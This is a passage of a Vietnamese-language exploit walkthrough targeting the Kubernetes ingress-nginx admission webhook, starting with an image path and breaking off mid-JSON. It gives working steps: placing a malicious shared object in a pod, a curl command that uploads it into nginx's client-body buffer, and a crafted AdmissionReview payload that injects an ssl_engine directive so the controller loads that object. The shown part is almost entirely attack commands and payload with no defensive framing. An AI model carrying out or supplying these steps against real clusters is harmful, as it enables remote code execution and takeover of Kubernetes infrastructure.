     * Chuyển tệp [`malicious.so`](http://malicious.so) vào Pod của bạn (ví dụ: qua `scp` hoặc upload qua ứng dụng bị xâm nhập).
        

#### **Bước 4: Tải mã độc lên ingress-nginx**

* **Mục tiêu**: Sử dụng client-body buffer của nginx để lưu tệp [`malicious.so`](http://malicious.so) vào hệ thống tệp của Pod ingress-nginx.
    
* **Hành động**:
    
    * Từ Pod của bạn, gửi yêu cầu HTTP lớn với dữ liệu nhị phân:
        
        ```plaintext
        curl -X POST \
          -H "Content-Length: 999999" \
          --data-binary @malicious.so \
          http://10.244.0.5
        ```
        
    * Nginx sẽ lưu tệp này tạm thời trong `/tmp` (ví dụ: `/tmp/client-body-12345`). Ghi chú: Đường dẫn chính xác có thể cần thử nghiệm (xem bước 7).
        

#### **Bước 5: Chuẩn bị yêu cầu AdmissionReview độc hại**

* **Mục tiêu**: Tạo một tệp JSON để gửi đến webhook, tiêm cấu hình độc hại.
    
* **Hành động**:
    
    * Tạo tệp `admissionreview.json` trong Pod của bạn:
        
        ```json
        {
          "apiVersion": "admission.k8s.io/v1",
          "kind": "AdmissionReview",
          "request": {
            "uid": "fake-uid-123",
            "object": {
              "apiVersion": "networking.k8s.io/v1",
              "kind": "Ingress",
              "metadata": {
                "name": "exploit-ingress",
                "annotations": {
                  "nginx.ingress.kubernetes.io/configuration-snippet": "ssl_engine \"/tmp/client-body-12345/malicious.so\";"
                }
              },
              "spec": {
                "rules": [
                  {
                    "http": {
                      "paths": [
                        {
                          "path": "/exploit",
                          "pathType": "Prefix",
                          "backend": {
                            "service": {
                              "name": "dummy",
                              "port": {
                                "number": 80
                              }
                            }
                          }
                        }
                      ]
                    }
                  }
                ]